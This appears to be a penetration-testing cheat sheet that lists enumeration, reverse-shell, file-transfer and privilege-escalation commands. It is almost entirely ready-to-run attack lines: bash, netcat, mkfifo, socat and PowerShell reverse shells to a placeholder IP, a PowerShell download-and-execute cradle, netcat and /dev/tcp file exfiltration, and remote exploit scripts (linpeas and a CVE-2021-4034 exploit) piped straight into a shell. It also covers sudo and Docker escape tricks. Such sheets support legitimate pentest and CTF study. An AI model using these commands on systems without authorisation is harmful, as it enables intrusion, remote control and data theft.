# CHEATSHEET


## ENUMERATION

### NETWORK

 #### **HOST DISCOVERY**
 
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

 #### **TCP OPEN PORTS**
 
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

 #### **INFO & VERSION**
 
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

 #### **HTTP ENUMERATION**

 Enumerate common directories and files with nmap
 
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```

 Gobuster

```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



### REVERSE SHELLS

 #### **BASH**
 
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

 #### **NETCAT**
 
```bash
nc -e /bin/bash <IP> <PORT>
```

 #### **MKFIFO**
 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

 #### **SOCAT**
 
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

 #### **POWERSHELL**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

 #### **CMD**
 
```powershell
powershell IEX(New-Object Net.WebClient).DownloadString('http://<IP>/<RESOURCE>')
```



### SHARE AND DOWNLOAD


 #### **HTTP SERVER**
 
```bash
# Python3
python3 -m http.server 80

# Python2
python -m SimpleHTTPServer 80

# PHP
php -S 0.0.0.0:80
```

 #### **SMB** 
 
```bash
smbserver.py shareName $(pwd) -smb2support
```

 #### **FILE TRANSFER ( NETCAT - BASH )** 
 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

 #### **DOWNLOAD** 

 Powershell
 
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

Cmd
 
```shell
certutil -urlcache -split -f <URL> <PATH>
```

Bash
 
```bash
wget "http://<IP>/"
```



### SYSTEM ENUMERATION


 #### **Enviroment Variables**
 
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

 #### **Find SUID on GUID files**
 
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

 #### **Check capabilities**
 
```bash
getcap -r / 2>/dev/null
```

 #### **Open local ports
 
```bash
ss -nltp
```

 #### **Cron Jobs**
 
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

 #### **Monitoring processes**
 
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

 #### **Scripts with write permissions**
 
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

 #### **LinPEAS**
 
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



# PRIVILEGE ESCALATION

 #### **Sudo**

```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

 #### **Polkit - (CVE-2021-4034)**

```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
 
 #### **Docker**
 
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

